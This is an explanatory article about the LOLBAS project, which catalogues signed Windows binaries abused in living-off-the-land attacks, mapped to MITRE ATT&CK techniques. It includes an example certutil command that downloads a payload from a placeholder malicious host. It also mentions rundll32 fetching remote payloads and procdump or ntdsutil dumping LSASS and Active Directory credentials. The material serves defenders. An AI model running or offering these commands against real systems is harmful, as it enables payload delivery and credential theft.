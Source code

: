 The project's criteria for inclusion are strict: entries must be signed by Microsoft, part of standard Windows installations, or otherwise trusted, and demonstrably usable for offensive operations. It excludes UNIX-focused tools (covered by GTFOBins) and drivers (handled by LOLDrivers). Contributors can submit via a guide, and an API enables programmatic access for integration into security tools. As of recent updates, the project includes over 200 entries, with ongoing additions like `winget.exe` for package management abuses.

MITRE ATT&CK® integration is a cornerstone, visualized through an ATT&CK Navigator layer. This allows users to explore how LOLBAS ties into broader attack frameworks, emphasizing techniques like System Binary Proxy Execution (T1218) and Ingress Tool Transfer (T1105).

## How Attackers Exploit LOLBAS: Living Off the Land Techniques
LOTL attacks, often synonymous with LOLBAS exploits, enable threat actors to "live off the land" by repurposing legitimate tools. This approach minimizes forensic footprints, as no new files are introduced, making it ideal for fileless malware campaigns. Attackers chain these tools to achieve objectives like initial access, persistence, and exfiltration.

### Key Exploitation Patterns
- **Proxy Execution (T1218)**: Tools like `rundll32.exe` or `regsvr32.exe` load malicious DLLs without direct execution, bypassing application controls. For example, `rundll32.exe url.dll,OpenURL` can fetch remote payloads.
- **Ingress and Egress (T1105, T1048)**: `certutil.exe` is frequently abused for downloading or encoding files, e.g., `certutil -urlcache -split -f http://malicious.com/payload.exe`. Similarly, `bitsadmin.exe` handles background transfers.
- **Credential Access (T1003)**: `procdump.exe` or `ntdsutil.exe` can dump LSASS memory or Active Directory databases.
- **Defense Evasion (T1564, T1027)**: `makecab.exe` compresses files to obscure them, while `cipher.exe` overwrites data for anti-forensics.

Real-world examples include ransomware groups like Conti using `wmic.exe` for remote execution and state-sponsored actors employing `powershell.exe` (via scripts) for in-memory attacks. These techniques are documented in the LOLBAS repository with YAML files detailing commands, paths, and detections.

### Common LOLBAS Entries
The project categorizes entries into Binaries, Libraries, Other MS Binaries, and Scripts. Below is a summarized table of notable examples, including associated ATT&CK techniques:

| Category       | Entry Example          | Description                                                                 | ATT&CK Techniques                  |
|----------------|------------------------|-----------------------------------------------------------------------------|------------------------------------|
| Binaries      | certutil.exe          | Downloads, encodes/decodes files; often used for payload retrieval.        | T1105, T1564.004, T1027.013, T1140 |
| Binaries      | rundll32.exe          | Executes DLL functions; proxy for malicious code.                          | T1218.011, T1564.004              |
| Binaries      | cmd.exe               | Command shell for execution and transfer.                                  | T1564.004, T1059.003, T1105, T1048.003 |
| Libraries     | shell32.dll           | Shell operations; can launch executables via Rundll32.                     | T1218.011                         |
| Other MS Binaries | procdump.exe      | Dumps process memory; abused for credential theft.                         | T1202, T1003.001                  |
| Scripts       | winrm.vbs             | WinRM scripting; enables remote command execution.                         | T1216, T1220                      |
